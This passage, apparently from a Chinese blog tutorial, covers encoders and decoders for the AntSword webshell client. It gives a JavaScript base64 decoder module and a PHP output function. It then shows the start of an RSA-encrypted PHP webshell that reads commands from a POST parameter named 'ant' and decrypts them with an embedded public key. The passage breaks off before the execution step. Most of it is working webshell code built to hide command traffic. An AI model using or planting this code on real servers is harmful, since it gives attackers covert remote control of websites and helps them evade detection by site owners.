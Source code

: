 

```javascript
/**
 * php::base64解码器
 * Create at: 2020/10/23 13:36:37
 */

'use strict';

module.exports = {
  /**
   * @returns {string} asenc 将返回数据base64编码
   * 自定义输出函数名称必须为 asenc
   * 该函数使用的语法需要和shell保持一致
   */
  asoutput: () => {
    return `function asenc($out){
      return @base64_encode($out);
    }
    `.replace(/\n\s+/g, '');
  },
  /**
   * 解码 Buffer
   * @param {string} data 要被解码的 Buffer
   * @returns {string} 解码后的 Buffer
   */
  decode_buff: (data, ext={}) => {
    return Buffer.from(data.toString(), 'base64');
  }
}
```



![BANhIf.png](https://s1.ax1x.com/2020/10/23/BANhIf.png)



### RSA 

设置编码

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105154909.png)



利用自动生成的公钥和私钥，同时给了马



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105154847.png)

```php
<?php
$cmd = @$_POST['ant'];
$pk = <<<EOF
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDG+HpLLzzH5QlFXSiqHnfCnc5r
Lk3NMsPYtfrht6EhvhIjUzRdUO5oiS/EYOd0iSj082T6R0UEpw/WmVNiPvHpyOAZ
xR+JLlOQjIsQDYMyJcprAcGuVsFr2phh1RhlM4sze5qbIBdDN906tbcpLw96iuxK
aMooNjK5SANso7a80QIDAQAB
-----END PUBLIC KEY-----
EOF;
$cmds = explode("|", $cmd);
$pk = openssl_pkey_get_public($pk);
$cmd = '';
foreach ($cmds as $value) {
  if (openssl_public_decrypt(base64_decode($value), $de, $pk)) {
```
